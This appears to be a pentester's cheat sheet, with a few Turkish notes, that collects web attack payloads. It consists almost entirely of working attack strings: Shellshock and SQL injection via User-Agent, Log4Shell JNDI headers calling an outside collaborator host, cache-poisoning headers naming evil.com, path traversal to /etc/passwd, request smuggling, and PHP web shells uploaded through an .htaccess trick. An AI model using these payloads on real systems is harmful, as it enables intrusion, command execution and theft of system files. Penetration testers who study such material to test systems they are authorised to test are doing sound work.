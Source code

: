 # HAND BOOK

User-Agent Command Injection
```
 1))%20or%20sleep(20)--
```
```
'">{{7*7}}${2*2}
```
```
() { : ; }; echo ; /bin/bash -c "cat /etc/passwd"
```

User-Agent SQL Injection
```

```
```
0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.336
0'XOR(if(now()=sysdate(),sleep(6),0))XOR'Z => 6.332
0'XOR(if(now()=sysdate(),sleep(3),0))XOR'Z => 3.352
0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.327
0'XOR(if(now()=sysdate(),sleep(6),0))XOR'Z => 6.337
0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.896
0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z => 10.740
0'XOR(if(now()=sysdate(),sleep(2),0))XOR'Z => 2.714
0'XOR(if(now()=sysdate(),sleep(1),0))XOR'Z => 1.927
```

log4shell
```
curl --http1.1 --silent --output /dev/null \
--header 'User-agent: ${jndi:ldap://${hostName}.<COLLABORATOR_URL>/a}' \
--header 'X-Forwarded-For: ${jndi:ldap://${hostName}.<COLLABORATOR_URL>/a}' \
--header 'Referer: ${jndi:ldap://${hostName}.<COLLABORATOR_URL>/a}' \
```

Web Cache Poisoning
```
X-Forwarded-Host: evil.com`  
X-Host: evil.com
X-Forwarded-Server: evil.com
```


MarkDown
```
![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../../etc/passwd)
```


Chunked diyoruz ve content type ini ayarliyoruz. ayrilmis sorgulari olacagini ve 0 ile de ikinci bir get gonderecegimizi soyluyoruz:
```header
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X
```


```
data://text/plain;base64,PD9waHAgZWNobygnYWJoaXNoZWttb3JsYTo6OicuIGdldF9jdXJyZW50X3VzZXIoKSAuJzo6OmFiaGlzaGVrbW9ybGEnKTs/Pg==
```

Payload php
```
<?php system($_GET['cmd']); ?>
```
```
<?php echo file_get_contents('/etc/passwd'); ?>
```
```
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: text/plain

Addtype application/x-httpd-php .shell
```

```
Content-Disposition: form-data; name="avatar"; filename="shell.shell"
Content-Type: image/png

<?php system($_GET['cmd']); ?>
```

Smtp Attack
```
  -----------------------------134475172700422922879687252
  Content-Disposition: form-data; name="subject"
  Test
  .
  MAIL FROM: external@domain1.com
  RCPT TO: external@domain1.com
  RCPT TO: external@domain2.com
  RCPT TO: external@domain3.com
  RCPT TO: external@domain4.com
  Data
  This is an example of SMTP Injection attack
  .
  -----------------------------134475172700422922879687252
```

